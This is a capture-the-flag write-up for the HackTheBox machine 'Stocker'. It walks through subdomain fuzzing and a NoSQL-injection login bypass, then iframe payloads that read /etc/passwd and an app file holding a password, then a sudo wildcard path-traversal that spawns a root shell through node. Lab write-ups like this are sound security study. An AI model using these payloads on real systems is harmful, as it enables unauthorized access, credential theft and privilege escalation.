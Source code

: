 ```yaml
---
title: HackTheBox - Stocker
categories: [HackTheBox, HackTheBox - Linux]
date: 2023-06-10
tags: [xss, lfi, nosqli, wildcard, node, pdf]
img_path: /Writeups/HackTheBox/Linux/Stocker/images/
image:
  src: Pasted%20image%2020230625002217.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Overview 

Machine begins with a subdomain enumeration, discovering `dev.stocker.htb`, where it is susceptible to a `NoSQLi` login bypass. Exploiting this vulnerability granted access to the cart checkout page, which was found to be vulnerable to a cross-site scripting to local file inclusion (XSS2LFI) attack. By leveraging the XSS vulnerability, it was possible to perform local file inclusion (LFI) and gain access to the `index.js` file, which contained credentials for the user `angoose`.

Next, it was observed that the user `angoose` possessed the privilege to execute the command `sudo /usr/bin/node /usr/local/scripts/*.js`. The usage of the wildcard (`*`) in the command created a vulnerability that allowed for directory traversal, enabling the execution of a malicious payload. privilege escalating us to `root`.

---

| Column       | Details                                                        |
|--------------|----------------------------------------------------------------|
| Box Name     | Stocker                                                        |
| IP           | 10.10.11.196                                                   |
| Points       | 20                                                             |
| Difficulty   | Easy                                                           |
| Creator      | [JoshSH](https://www.hackthebox.com/home/users/profile/269501) |
| Release Date | 14 Jan 2023                                                    |

# Recon


## TCP/80 (HTTP)

- FFUF
	- Could not enumerate any interesting files
- Enumerate for subdomains

	```
	┌──(root💀kali)-[~/htb/stocker]
	└─# ffuf -u http://stocker.htb -H "Host: FUZZ.stocker.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fc 301
	
	dev                     [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 249ms]
	```

	> `dev.stocker.htb` - add it to your `/etc/hosts`
	{: .prompt-info}

# Initial Foothold


## TCP/80 (HTTP) - NoSQLi

1.  Proceed to `http://dev.stocker.htb`, found a login page
2. With `webappalyzer` found that page is running on `node.js`
	![](Pasted%20image%2020230610175108.png)

	> Since it is `node.js` , we can try NoSQLi
	{: .prompt-info}

3. NoSQLi worked

	```
	# Payload
	POST /login HTTP/1.0
	Host: dev.stocker.htb
	User-Agent: Mozilla/5.0 (Hydra Proxy)
	Content-Length: 59
	Content-Type: application/json
	Cookie: connect.sid=s%3AqAR-6lAK22yFu_5EbRGEq3zlLw0ch7dB.fQcRonylfrEFjjkKqs6H6wQgHouF%2FBB7btxpEfskgbA
	Connection: close
	
	{"username": {"$ne": null}, "password": {"$ne": null} }
	```

	> - Change content type to `application/json`
	{: .prompt-info}

4. Demo - NoSQLi 
	![](uLV6UuMCM9.gif)
5. Web directory
	![](Pasted%20image%2020230610233351.png)

	>`/var/www/dev/`
	{: .prompt-info}


## TCP/80 - XSS2LFI

1. Add items to cart and checkout, intercept w/ `burp`
	![](Pasted%20image%2020230610232347.png)

	> There are a lot of parameters that could be vulnerable, we'll have to try them one by one
	{: .prompt-info}

2. Download the purchase order to look at the metadata w/ `exiftool`

	```
	┌──(root💀kali)-[~/htb/stocker/10.10.11.196/exploit]
	└─# exiftool asdf.pdf
	ExifTool Version Number         : 12.44
	File Name                       : asdf.pdf
	Directory                       : .
	File Size                       : 41 kB
	File Modification Date/Time     : 2023:06:10 23:10:55+08:00
	File Access Date/Time           : 2023:06:10 23:10:54+08:00
	File Inode Change Date/Time     : 2023:06:10 23:11:06+08:00
	File Permissions                : -rw-r--r--
	File Type                       : PDF
	File Type Extension             : pdf
	MIME Type                       : application/pdf
	PDF Version                     : 1.4
	Linearized                      : No
	Page Count                      : 1
	Tagged PDF                      : Yes
	Creator                         : Chromium
	Producer                        : Skia/PDF m108
	Create Date                     : 2023:06:10 15:05:00+00:00
	Modify Date                     : 2023:06:10 15:05:00+00:00
	```

	>`Skia/PDF m108` - Google it
	{: .prompt-info}

3. `title` parameter is susceptible to `XSS`, allowing us to do LFI

	```
	# Payload
	"title":"<iframe src=/etc/passwd>",
	```

	![](Pasted%20image%2020230610233121.png)

4. View `index.js` (Because web running on `node.js`)

	```
	# Payload
	"title":"<iframe width=1000 height=1000 src=/var/www/dev/index.js></iframe>"
	```

	![](Pasted%20image%2020230610234140.png)

	>`dev:IHeardPassphrasesArePrettySecure`
	{: .prompt-info}


## TCP/22 (SSH) 

1. Since `dev` user does not exist, `ssh` into user `angoose`

	```
	┌──(root💀kali)-[~/htb/stocker/10.10.11.196/exploit]
	└─# sshpass -p 'IHeardPassphrasesArePrettySecure' ssh angoose@stocker.htb
	Last login: Sat Jun 10 00:32:45 2023 from 10.10.14.2
	angoose@stocker:~$ id;whoami
	uid=1001(angoose) gid=1001(angoose) groups=1001(angoose)
	angoose
	angoose@stock
	```

# Privilege Escalation


## Root - Wildcard + Node Sudo

1. User `angoose` sudo access

	```
	angoose@stocker:/var/www/dev$ sudo -l
	Matching Defaults entries for angoose on stocker:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User angoose may run the following commands on stocker:
	    (ALL) /usr/bin/node /usr/local/scripts/*.js
	```

	> - The usage of `*` makes this sudo privilege vulnerable, we are able to do directory traversal and point `/usr/bin/node` to any file we want 
	> - `/usr/local/scripts/../../../../../../tmp/something.js` works 
	{: .prompt-info}

2. Create payload `/tmp/exploit.js`

	```
	angoose@stocker:/var/www/dev$ nano /tmp/exploit.js
	require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
	angoose@stocker:/var/www/dev$ chmod +x /tmp/exploit.js
	```

3. Execute our exploit w/ `/usr/bin/node` to `root`

	```
	# Payload
	sudo /usr/bin/node /usr/local/scripts/../../../../../../../tmp/exploit.js
	```

4. Demo - `Node` sudo + wildcard
	![](WVtAYUrw1W.gif)
